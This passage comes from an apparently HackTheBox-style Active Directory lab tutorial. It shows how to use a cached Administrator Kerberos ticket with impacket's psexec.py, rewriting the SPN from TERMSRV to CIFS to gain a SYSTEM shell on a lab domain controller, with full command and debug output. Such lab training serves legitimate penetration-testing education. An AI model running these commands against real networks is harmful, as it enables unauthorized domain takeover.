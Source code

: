 This will generate a ticket and save it as `Administrator.ccache` in the current directory. Once we have this valid ticket to access the `TERMSRV` service on `DC01` as `Administrator`, we can use it with `psexec.py` from `impacket`, after exporting its path to the environment variable `KRB5CCNAME`. This tool will update the SPN in this TGS on the fly to get an interactive shell. The `-debug` flag is added on purpose so you can see what's going on.

#### Using PSExec with the Ticket
```shell-session
slomkm@htb[/htb]$ export KRB5CCNAME=./Administrator.ccache
slomkm@htb[/htb]$ psexec.py -k -no-pass INLANEFREIGHT.LOCAL/administrator@DC01 -debug

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[+] Impacket Library Installation Path: /home/plaintext/.local/lib/python3.9/site-packages/impacket
[+] StringBinding ncacn_np:DC01[\pipe\svcctl]
[+] Using Kerberos Cache: Administrator.ccache
[+] SPN CIFS/DC01@INLANEFREIGHT.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for TERMSRV/DC01@INLANEFREIGHT.LOCAL
[+] Using TGS from cache
[+] Changing sname from TERMSRV/DC01@INLANEFREIGHT.LOCAL to CIFS/DC01@INLANEFREIGHT.LOCAL and hoping for the best
[*] Requesting shares on DC01.....
[*] Found writable share ADMIN$
[*] Uploading file SmXURDVG.exe
[*] Opening SVCManager on DC01.....
[*] Creating service DBou on DC01.....
[*] Starting service DBou.....
[+] Using Kerberos Cache: Administrator.ccache
[+] SPN CIFS/DC01@INLANEFREIGHT.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for TERMSRV/DC01@INLANEFREIGHT.LOCAL
[+] Using TGS from cache
[+] Changing sname from TERMSRV/DC01@INLANEFREIGHT.LOCAL to CIFS/DC01@INLANEFREIGHT.LOCAL and hoping for the best
[+] Using Kerberos Cache: Administrator.ccache
[+] SPN CIFS/DC01@INLANEFREIGHT.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for TERMSRV/DC01@INLANEFREIGHT.LOCAL
[+] Using TGS from cache
[+] Changing sname from TERMSRV/DC01@INLANEFREIGHT.LOCAL to CIFS/DC01@INLANEFREIGHT.LOCAL and hoping for the best
[!] Press help for extra shell commands
[+] Using Kerberos Cache: Administrator.ccache
[+] SPN CIFS/DC01@INLANEFREIGHT.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for TERMSRV/DC01@INLANEFREIGHT.LOCAL
[+] Using TGS from cache
[+] Changing sname from TERMSRV/DC01@INLANEFREIGHT.LOCAL to CIFS/DC01@INLANEFREIGHT.LOCAL and hoping for the best
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```


[ws01.inlanefreight.local]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami